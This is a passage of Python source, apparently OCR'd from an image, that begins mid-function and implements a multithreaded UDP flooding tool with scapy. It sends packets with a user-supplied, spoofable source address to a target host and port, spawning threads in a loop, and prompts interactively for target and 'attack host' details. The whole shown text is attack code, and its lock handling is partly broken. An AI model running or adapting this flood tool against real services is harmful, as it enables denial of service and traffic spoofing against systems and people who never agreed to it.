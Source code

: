 ```python
    pkt = scapy.all.IP(dst=target_host, src=src_ip) / scapy.all.UDP(sport=src_port, dport=target_port) / data
 
    send(pkt, inter=1, count=1)
 
    screenLock.acquire()
 
    Count = Count + 1
 
    # print("[+] Sending the "+'%d' %Count+" UDP pages")
 
    if Count >= count_page:
        print('Atrack is end!')
 
        exit(0)
 
    screenLock.release()
 
 
def UDP_Attrack(target_host, target_port, var_name, src_ip, src_port, count, count_page):
    global Count
    while (Count <= count_page):
 
        for i in range(count):
            # UDP_get(target_host,target_port,var_name,src_ip,src_port)
 
            th = threading.Thread(target=UDP_get,
                                  args=(target_host, target_port, var_name, src_ip, src_port, count_page))
 
            th.start()
 
 
def main():
  
    target_host = raw_input("target service host:")
 
    
    target_port = raw_input("target service port:")
 
   
    var_name = raw_input("the key name:")
 
    
    src_ip = raw_input("the attrack host:")
 
    
    src_port = raw_input("the attrack port:")
 
    Thread_count = raw_input("the Count of Threading:")
    
 
    Count_page = raw_input("the Count of page:")
   
 
    UDP_Attrack(target_host, int(target_port), var_name, src_ip, int(src_port), int(Thread_count), int(Count_page))
 
```
